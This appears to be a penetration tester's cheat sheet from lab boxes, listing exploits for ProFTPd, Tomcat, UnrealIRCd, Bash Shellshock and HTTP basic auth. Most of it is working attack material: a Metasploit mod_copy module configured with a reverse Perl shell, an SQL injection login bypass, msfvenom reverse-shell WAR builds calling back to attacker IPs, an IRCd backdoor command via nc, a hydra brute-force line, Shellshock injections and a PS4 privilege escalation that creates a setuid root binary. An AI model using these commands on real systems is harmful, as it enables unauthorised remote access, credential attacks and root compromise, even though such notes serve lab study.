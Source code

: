 # ProFTPd

## ProFTPd 1.3.5, mod_copy
	Any Linux server running Proftp version < 1.3.5 are vulnerable.
	https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
	https://www.exploit-db.com/exploits/36742
	https://www.exploit-db.com/exploits/36803
	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	set LHOST 192.168.6.138
	run

	id


## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful


# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/